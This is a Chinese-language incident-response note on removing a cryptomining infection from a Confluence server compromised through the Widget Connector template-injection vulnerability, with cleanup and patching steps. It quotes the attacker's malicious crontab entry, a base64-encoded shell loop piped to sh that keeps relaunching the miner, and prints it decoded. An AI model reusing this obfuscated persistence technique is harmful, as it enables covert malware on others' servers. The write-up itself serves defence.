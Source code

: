 ## confluence挖矿病毒

### 一、问题描述

- 安装的confluence的机子,服务器CPU达到100%，服务器进行排查，top发现有不知名进程占用大量CPU，出现很多乱码的进程。kill 进程后，隔了几分钟CPU再次飙高。

![https://raw.githubusercontent.com/Lqlixl/linux/master/Basic/Picture/Littery/conference%E6%8C%96%E7%9F%BF1.png](https://raw.githubusercontent.com/Lqlixl/linux/master/Basic/Picture/Littery/conference挖矿1.png)

### 二、解决办法

#### 1.封掉外网HTTP 端口

- 使用云控制台 安全组 设置80端口不允许访问。或者使用防火墙。

#### 2.查杀进程

- 使用命令：top 查看pid 并使用 kill -9 ‘pid’  
-  查杀完成之后，发现进程一直在启动

#### 3.查看否已经写到计划任务

- 查看定时任务
  - crontab -l    （没有先关信息，想到前面用top看 user 是conference1用户，应该没提权到root）
- 再次查看特定的用户： 
  - crontab -l -u confluence1 查看  （此处的confluence1是前面top看到的不知名进程和乱码进程的启动用户）

```bash
查到了相关的恶意计划任务
[root@test tmp]# crontab -l -u  confluence1
* * * * * echo -n  "KCB3aGlsZSA6IDsgZG8gc2xlZXAgNSA7IGlmICEga2lsbCAtMCAyNTQ0MyA+L2Rldi9udWxsIDI+JjEgOyB0aGVuIC9vcHQvYXRsYXNzaWFuL2NvbmZsdWVuY2UvdGVtcC9kZW5mdHYgPi9kZXYvbnVsbCAyPiYxIDsgZmkgOyBkb25lICkgJiBwaWQ9JCEgOyAoc2xlZXAgMTAgJiYga2lsbCAtOSAkcGlkKSAm" | base64 -d | sh >/dev/null 2>&1
base64 解密为：
( while : ; do sleep 5 ; if ! kill -0 25443 >/dev/null 2>&1 ; then /opt/atlassian/confluence/temp/denftv >/dev/null 2>&1 ; fi ; done ) & pid=$! ; (sleep 10 && kill -9 $pid) &
是一个死循环。

进入相应目录查看，也会发现多了一个confluence目录文件
ll /var/spool/cron/confluence
```

#### 4.杀死定时任务

1. 使用命令：crontab -r -u confluence1
2. 也可以使用：cd /var/spool/cron/confluence;  >confluence  清空防止差生新的进程

- 再次查看是否有新的定时任务生成
  - crontab -l -u confluence1 

#### 5.清除/tmp/下所有confluence1用户创建的目录

- 该目录为病毒文件

#### 6.清除/opt/atlassian/confluence/temp/ 下所有confluence1用户创建的目录

- 应该是攻击confluence 的病毒文件

#### 7.升级confluence

- 安全建议：以下任选一种皆可修复漏洞

  a.升级至安全版本。下载链接：[download](https://www.atlassian.com/software/confluence/download/data-center)

  b升级Widget Connector 组件。下载链接：[download](https://packages.atlassian.com/maven-public/com/atlassian/confluence/extra/widgetconnector/widgetconnector/)

- Linux系统运行如下命令查找widgetconnector-*.jar文件所在位置：

  > find / -name "widgetconnector-*"
  >
  > /opt/atlassian/confluence/confluence/WEB-INF/atlassian-bundled-plugins/widgetconnector-5.0.1.jar
  >
  > 下载最新版本的widgetconnector-*.jar替换，并重启Confluence应用

- 选用的是 b 方案 替换 jar 替换目录为 /opt/atlassian/confluence/confluence/WEB-INF/lib

#### 8.检查

- 完成这些后检查/tmp/ 和/opt/atlassian/confluence/temp/  还有crontab -l -u confluence1 是否有新的病毒文件或任务生成，有就再次删除。

#### 9.重启服务器，并再次运行confluence

- 服务器起来查看是否还有confluence1的乱码进程。



### 三、病毒来源：

- 官方发布了预警，于是开始了漏洞应急。漏洞描述中指出Confluence Server与Confluence数据中心中的Widget连接器存在服务端模板注入漏洞，攻击者能利用此漏洞能够实现目录穿越与远程代码执行。
- 涉及版本
  - 涉及版本：影响版本6.6.7之前的所有版本的Confluence Server和Confluence数据中心，6.8.5之前的版本6.7.0（6.8.x的固定版本），6.9.3之前的6.9.0版本（6.9的固定版本）

